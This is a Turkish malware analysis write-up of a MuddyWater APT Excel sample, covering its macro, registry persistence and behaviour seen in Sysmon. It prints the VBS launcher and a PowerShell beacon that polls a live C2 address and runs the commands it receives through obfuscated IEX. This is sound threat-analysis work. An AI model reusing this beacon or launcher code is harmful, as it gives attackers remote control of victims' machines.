 # 0xc3yc3y ile MuddyWater Analizi

Bu yazımızda MuddyWater örneği olan bir XLS dosyası analiz edeceğiz.


MuddyWater APT grubu Orta Doğu, Avrupa, Güney Asya, Afrika ve Amerika'da özel ve devlet kuruluşlarını hedef alan, İran İstihbarat ve Güvenlik Bakanlığı'na bağlı olarak değerledirilen siber casusluk grubudur.
Saldırılarının ilk aşaması genellikle oltalamadır. Kurbanlara gönderilen maillerde bulunan dosya ekleri veya yönlendirilen linklerden indirilen dosyalar ile buluşma başlatılmaktadır.


## Teknik Analiz

Zararlı dosya ExifTool ile incelendiğinde "Comments" bölümündeki PowerShell kodu dikkat çekiyor.

![ExifTool çıktısı](/Analizler/img/muddy1.png)

Dosya açıldığında aşağıdaki gibi görünmektedir.

![Dosya görüntüsü](/Analizler/img/muddy2.png)

İçeriğe izin vermeden statik analizimize devam ediyoruz.

XLS, DOC, PPT gibi dosyaları incelemek için "oledump.py" aracından faydalanarak ilgili dosyanın içerdiği makroları görüntüleyebiliriz.

![oledump.py çıktısı 1](/Analizler/img/muddy3.png)


Bu çıktıdaki 7. stream'in detayına baktığımızda ise obfuscate edilmiş makro kodunu görebiliriz.


![oledump.py çıktısı 2](/Analizler/img/muddy4.png)

Kodu analiz ettiğimizde "links.ps1" ve "Lald.vbs" isimli iki dosyanın oluşturulacağını ve kalıcılık sağlamak amacıyla Registry'de değişiklik yapılacağını tespit edebiliriz.

![İncelenen makro](/Analizler/img/muddy5.png)

Dinamik analiz aşamasına geçelim. XLS doyasının içeriğine izin verildiğinde sistem üzerinde yapılan değişiklikleri Sysmon aracılığıyla takip edebiliriz. Aşağıya Sysmon çıktılarının ekran görüntülerini ekliyorum.

![Dinamik analiz 1](/Analizler/img/muddy6.png)
![Dinamik analiz 2](/Analizler/img/muddy7.png)


![Dinamik analiz 3](/Analizler/img/muddy8.png)

"Lald.vbs" dosyasının içeriğine baktığımızda, bu dosyanın "links.ps1" dosyasını çalıştıracağını görebiliriz.

![Dinamik analiz 4](/Analizler/img/muddy9-Laldvbs.png)

```
Set oili = CreateObject ("WScript.Shell"):oili.run "powershell -exec bypass -file c:\users\" + CreateObject("WScript.Network").UserName + "\links\links.ps1" , 0, True
```

"links.ps1" dosyasının içeriğine baktığımızda ise "hxxp://185.118.167[.]120/" IP adresine 40 saniyede bir istek oluşturulacağını ve buradan alınan komutların çalıştırılacağını görebiliriz.

![Dinamik analiz 5](/Analizler/img/muddy10-linksps1.png)

```
for ($i=2; $i -gt 1; $i++) {
	try{
		$w=[System.Net.HttpWebRequest]::Create('http://185.118.167.120/');
		$w.proxy=[Net.WebRequest]::GetSystemWebProxy();
		$w.UserAgent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.11.4472.124 Safari/537.36|'+ $env:username;
		$w.timeout=40000;$r='';
		$r=(New-Object System.IO.StreamReader($w.GetResponse().GetResponseStream())).ReadToEnd();
		&("{1}{2}{0}" -f 'X','I','E') $r;
		}
	catch{}
}
```

Kodun sonsuz bir döngü içerisinde olduğu ve "UserAgent" sonuna "$env:username" bilgisinin eklendiği de dikkatimizi çekmekte. (İletişim kurulan IP adresinin C2 adresi olabileceği ihtimalini arttıran olaylar ^^)

Registry'de yapılan değişikliği de RegEdit aracılığıyla görüntüleyebiliriz. 

![Dinamik analiz 6](/Analizler/img/muddy11.png)

Sisteme oluşturulan dosyaları çalıştıracak herhangi bir komut olmaması nedeniyle kullanıcı bilgisayarı yeniden başlatmadan C2 adresi ile iletişim başlamayacaktır. O halde sistemi yeniden başlatarak neler olacağına bakalım.

![Dinamik analiz 7](/Analizler/img/muddy12.png)

Yukarıdaki ekran görüntüsü, "links.ps1" dosyasının belirli aralıklarla C2 ile iletişim kurmaya çalıştığını göstermektedir. Ancak IP adresine erişilemediği için analizimiz burada sona eriyor.

MuddyWater örneklerinin analizi kolaydır ancak bu onu etkili bir APT grubu yapmaktan alıkoymuyor.

### Analiz sırasında kullanılan araçlar:

ExifTool : https://exiftool.org/

oledump.py: https://blog.didierstevens.com/programs/oledump-py/

Sysmon: https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon
